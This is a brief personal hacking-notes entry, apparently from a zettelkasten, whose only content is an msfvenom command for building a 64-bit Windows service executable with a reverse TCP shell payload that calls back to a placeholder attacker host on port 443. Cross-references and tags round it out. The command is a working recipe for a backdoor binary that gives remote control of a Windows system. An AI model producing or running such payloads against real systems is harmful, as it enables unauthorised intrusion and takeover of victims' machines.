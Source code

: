 # MSFVENOM Windows Binary (.exe) executable 64 Bit (x64) service
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe-service -o service.exe
```

# References
- [20221003150771](/zet/20221003150771/README.md) MSFVENOM Windows Binary (.exe) executable 64 Bit (x64)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted #command #hacking #msfvenom
